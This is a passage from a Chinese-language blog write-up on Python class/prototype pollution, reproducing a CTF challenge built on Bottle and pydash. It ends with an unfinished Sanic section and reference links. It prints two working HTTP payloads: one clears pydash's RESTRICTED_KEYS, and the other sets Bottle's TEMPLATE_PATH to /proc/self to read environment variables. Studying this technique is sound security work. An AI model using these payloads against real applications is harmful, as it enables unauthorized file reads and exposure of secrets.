	self.filename = source.filename if hasattr(source, 'filename') else None
	self.lookup = [os.path.abspath(x) for x in lookup] if lookup else []
	self.encoding = encoding
	self.settings = self.settings.copy()  # Copy from class variable
	self.settings.update(settings)  # Apply
	if not self.source and self.name:
		self.filename = self.search(self.name, self.lookup)
		if not self.filename:
			raise TemplateError('Template %s not found.' % repr(name))
	if not self.source and not self.filename:
		raise TemplateError('No template specified.')
	self.prepare(**self.settings)
```

跟进 `bottle.py/BaseTemplate#search`，可以看到这里将`lookup`及传入文件进行了合并


`lookup`是由 `TEMPLATE_PATH`类变量决定，如果将其污染，是不是能做到任意路径文件读取呢？断点调试确定污染链


Payload，`bottle`字符被过滤，使用 `__globals__`访问变量， `name`无所谓
```
POST /setValue?name=a
Content-Type: application/json

{"path": "__globals__.bottle.TEMPLATE_PATH","value": ["/proc/self"]}
```

页面返回了`no`，这和预期不同，因为 `pydash.set_`进入了 `except` 



```
try:
	pydash.set_(obj,path,value)
except:
	return False
```


删去 `try` 和 `except`，动调发现程序是返回了一个异常，调试链子：
```
pydash/object.py#set_ -> #set_with -> #update_with -> #base_get -> pydash/helpers.py#base_get_object -> helpers.py#_raise_if_restricted_key
```

原因如下，`_raise_if_restricted_key` 不允许使用 `__globals__` 



那我们先污染掉这个类变量就好了
```
#helpers
RESTRICTED_KEYS = ("__globals__", "__builtins__")
```

确认路径


`Payload` 

```
POST /setValue?name=pydash
Content-Type: application/json

{"path": "helpers.RESTRICTED_KEYS","value":[]}
```


```
POST /setValue?name=a
Content-Type: application/json

{"path": "__globals__.bottle.TEMPLATE_PATH","value": ["/proc/self"]}
```


读取环境变量即可



## `[DASCTF暑期挑战赛2024]Sanic's revenge`
未完待续

**参考：**
https://redshome.top/posts/2024-12-10-2024%E5%9B%BD%E8%B5%9B-sanic%E5%A4%8D%E7%8E%B0/
https://yliken.github.io/2024/07/22/2024ciscn/
https://www.7ntsec.cn/?p=56
https://xz.aliyun.com/news/14057?time__1311=eqUxuiDti%3DoDwxmqGNyjDAxNKDk%2Bbe1KH4D&u_atoken=45db56fe60d05acc10ad8f5a4654fce5&u_asig=0a472f9117441169407193894e0043
https://www.cnblogs.com/gxngxngxn/p/18205235
以及其他翻阅时遗漏的文章


PS. 还有一些没复现完的，没搞定只能等下回再研究这个课题的时候才再学了


---

> Author: [L1nq](https://github.com/L1nq0)  
> URL: https://sw1mblu3.fun/posts/%E5%88%9D%E8%AF%86python%E5%8E%9F%E5%9E%8B%E9%93%BE%E6%B1%A1%E6%9F%93/  

